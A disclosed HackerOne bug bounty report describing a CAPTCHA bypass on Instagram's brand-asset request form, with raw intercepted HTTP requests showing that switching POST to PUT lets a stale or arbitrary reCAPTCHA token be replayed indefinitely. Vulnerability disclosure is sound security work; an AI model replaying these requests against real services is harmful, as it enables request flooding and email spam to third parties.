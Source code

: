 # Captcha bypass for the most important function - At en.instagram-brand.com

## Report Details
- **Report ID**: 206653
- **URL**: https://hackerone.com/reports/206653
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-02-15T15:22:17.840Z
- **Disclosed**: 2019-06-22T14:13:02.661Z

## Reporter
- **Username**: saurabhb
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
**Product / URL**

https://en.instagram-brand.com/wp-json/brc/v1/approval-requests

**Description and Impact**

The Instagram Brand Site has a functionality for business users to request for using Instagram Assets.
The URL for creating a new request is: https://en.instagram-brand.com/requests/new
There is a CAPTCHA implementation on the last page to make sure that only legitimate users ask for this.
But, there is a way to bypass this CAPTCHA implementation.

**Impact:**
The whole purpose of having the security feature of captcha has gone in vain. A malicious user can request for infinite times. The email is also sent to that user infinite times. This will create an overhead on those who reviews these request. Also if the malicious user spoofs the email, the actual holder of that email will be flooded with mails from Instagram site.

Note: I did not sent this request to the intruder, otherwise the admin's dashboard would be flooded. But I am sure there is absolutely no rate limitation cause the captcha is broken.

**Solution:**
There is a logical flaw in captcha implementation. Make sure that every request is checked for correct captcha and is then processed.


**Reproduction Instructions / Proof of Concept**

1. Create a new request by entering right captcha value.
2. Intercept the request in a proxy tool.
3. The request will look like this:

`POST /wp-json/brc/v1/approval-requests HTTP/1.1
Host: en.instagram-brand.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-WP-Nonce: 6e74d4f6be
Content-Type: application/x-www-form-urlencoded
Referer: https://en.instagram-brand.com/requests/new/3
Content-Length: 692
Cookie: <the cookies here>
Connection: keep-alive`

`campaign-name=fdsfs&description=sdfsfsfsdfs&client=fasdfsdf&from-date=2017%2F01%2F31&to-date=2017%2F02%2F15&audience-reach=1%20-%2010%2C000&media-value=%2425%2C000%20-%20%24100%2C000&assets=11532%2C11534%2C11536&sizes=34&files=1486898411715-myjs.html&g-recaptcha-response=03AHJ_VuvtbNaOXuvMLpGNZ1r1sE8LRcGksdd_reTh3zIyz6vXE58GA_DMZfjMMLlm0gyc7qr4t5wV9YOE-CRw94WhnJn9DlIJmm2Ine1dRpiQt1x5D2-8DPgOHYxqzgYjp1bRHw2JdDDZlbfDklE0ikQlfnX6yvmX0XvQRAvUwVdoH_UZtVIrq9JolD_IfTRD9_nF2IQ7ibDU1B9dojCVuB9HQGQLmnSgQsHAP2NWg_PWJ6RsrgVEgbcke2qyNYpGTRVuU3WjyGDc53v7YwvGe2WhLU_jHFGDl-TSGD2rIZEJOJ4e6XozIKL0DGSilxXxAxG0saERnEEoKGO-05Fs9maB47ZxhhdoNnzMLNrRt8bK6rRYDO9UnxJ_2M-i9J0M34x9KI44cjm9E0aTM00VYuniBaKFkezqHg`


4. Now change the method from POST to PUT and right submit the request.
5. The request will look like:

`PUT /wp-json/brc/v1/approval-requests HTTP/1.1
Host: en.instagram-brand.com
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-WP-Nonce: 6e74d4f6be
Content-Type: application/x-www-form-urlencoded
Referer: https://en.instagram-brand.com/requests/new/3
Content-Length: 692
Cookie: <the cookies here>
Connection: keep-alive`

`campaign-name=fdsfs&description=sdfsfsfsdfs&client=fasdfsdf&from-date=2017%2F01%2F31&to-date=2017%2F02%2F15&audience-reach=1%20-%2010%2C000&media-value=%2425%2C000%20-%20%24100%2C000&assets=11532%2C11534%2C11536&sizes=34&files=1486898411715-myjs.html&g-recaptcha-response=03AHJ_VuvtbNaOXuvMLpGNZ1r1sE8LRcGksdd_reTh3zIyz6vXE58GA_DMZfjMMLlm0gyc7qr4t5wV9YOE-CRw94WhnJn9DlIJmm2Ine1dRpiQt1x5D2-8DPgOHYxqzgY&`

5. Repeat the request for any number of times and observe that every time instead of checking for a new captcha value, the old value or ANY VALUE from captcha is accepted.
6. Please see the attached screenshots for exact requests and response and my dashboard as a real proof of concept.

## Attachments
- InstagramBrandCAPTCHABypassDashboard.png
- InstagramBrandCAPTCHABypass.png
